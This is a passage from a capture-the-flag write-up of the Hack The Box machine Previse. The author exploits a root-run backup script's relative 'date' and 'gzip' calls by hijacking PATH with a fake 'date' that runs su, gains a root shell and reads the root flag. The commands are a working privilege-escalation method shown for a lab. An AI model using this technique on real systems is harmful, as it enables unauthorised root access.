 Interesting — here is the contents of access_backup.sh:
```
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Examining the script, it looks like development negligence turned in my favor. Both the `gzip` and `date` binaries are referenced relatively; therefore, we can edit PATH to point to my own `gzip`/`date` script(s). Consider the following commands, given that I have created a `date` program in `/home/m4lwhere`:
```
m4lwhere@previse:~$ export PATH=:/home/m4lwhere
m4lwhere@previse:~$ /bin/cat date
#!/bin/bash
/bin/su
m4lwhere@previse:~$ /usr/bin/sudo /opt/scripts/access_backup.sh 
root@previse:/home/m4lwhere# 
```

Root access has been granted!

### Obtaining the SYSTEM Flag
All that is left is to print the SYSTEM flag:
```
root@previse:/home/m4lwhere# ls /root
root.txt
root@previse:/home/m4lwhere# cat /root/root.txt
<REDACTED>
```

And there it is — the SYSTEM flag! The flag was accepted by HTB; thus, [Previse is complete](https://www.hackthebox.com/achievement/machine/787255/373).


## Conclusion
This was a very fun CTF overall, which I admit I found challenging despite the low difficulty rating relative to other HTB challenges. I had a lot of fun working on Previse, and it felt noticeably more accessible to me than some other HTB machines I've attempted. I learned a lot and I encourage others interested in red team security activities to give their own best effort toward this challenge... even if they end up with 50+ open browser tabs at the end like I did.

I hope you found this guide helpful or inspirational. Thank you so much for reading, and check back soon for more activity reports.

-Sid
